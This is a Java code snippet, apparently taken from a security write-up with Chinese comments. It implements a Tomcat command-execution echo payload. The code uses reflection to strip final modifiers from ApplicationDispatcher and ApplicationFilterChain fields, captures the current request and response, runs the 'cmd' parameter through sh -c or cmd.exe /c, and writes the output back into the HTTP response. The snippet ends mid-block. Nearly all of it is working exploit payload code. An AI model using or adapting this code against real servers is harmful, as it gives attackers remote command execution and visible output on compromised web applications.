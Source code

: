 ```java
// 反射获取变量
Field WRAP_SAME_OBJECT_FIELD = Class.forName("org.apache.catalina.core.ApplicationDispatcher").getDeclaredField("WRAP_SAME_OBJECT");
Field lastServicedRequestField = ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
Field lastServicedResponseField = ApplicationFilterChain.class.getDeclaredField("lastServicedResponse");
WRAP_SAME_OBJECT_FIELD.setAccessible(true);
lastServicedRequestField.setAccessible(true);
lastServicedResponseField.setAccessible(true);
// 通过modifiers反射修改static final字段
Field modifiersFiled = Field.class.getDeclaredField("modifiers");
modifiersFiled.setAccessible(true);
modifiersFiled.setInt(WRAP_SAME_OBJECT_FIELD, WRAP_SAME_OBJECT_FIELD.getModifiers() &~Modifier.FINAL);
modifiersFiled.setInt(lastServicedRequestField, lastServicedRequestField.getModifiers() &~Modifier.FINAL);
modifiersFiled.setInt(lastServicedResponseField, lastServicedResponseField.getModifiers() &~Modifier.FINAL);

ThreadLocal<ServletResponse> lastServicedResponse = (ThreadLocal<ServletResponse>) lastServicedResponseField.get(null);
ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestField.get(null);
boolean WRAP_SAME_OBJECT = WRAP_SAME_OBJECT_FIELD.getBoolean(null);
String cmd = lastServicedRequest != null
        ? lastServicedRequest.get().getParameter("cmd") // 寻找cmd参数
        : null;
if(!WRAP_SAME_OBJECT || lastServicedResponse == null || lastServicedRequest == null){
    lastServicedRequestField.set(null, new ThreadLocal<>());
    lastServicedResponseField.set(null, new ThreadLocal<>());
    WRAP_SAME_OBJECT_FIELD.setBoolean(null, true);
} else if (cmd != null) {
    // 获取response对象 在原本回显之后添加我们的内容
    ServletResponse responseFacade = lastServicedResponse.get();
    responseFacade.getWriter();
    java.io.Writer w = responseFacade.getWriter();
    Field responseFiled = ResponseFacade.class.getDeclaredField("response");
    responseFiled.setAccessible(true);
    Response response = (Response) responseFiled.get(responseFacade);
    Field usingWriter = Response.class.getDeclaredField("usingWriter");
    usingWriter.setAccessible(true);
    usingWriter.setAccessible(true);
    usingWriter.set((Object) response, Boolean.FALSE);
    // 回显八股
    boolean isLinux = true;
    String osTyp = System.getProperty("os.name");
    if(osTyp != null && osTyp.toLowerCase().contains("win")){
        isLinux = false;
    }
    String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
    InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
    Scanner s = new Scanner(in).useDelimiter("\\a");
    String output = s.hasNext()?s.next():"";
    w.write(output);
    w.flush();
```
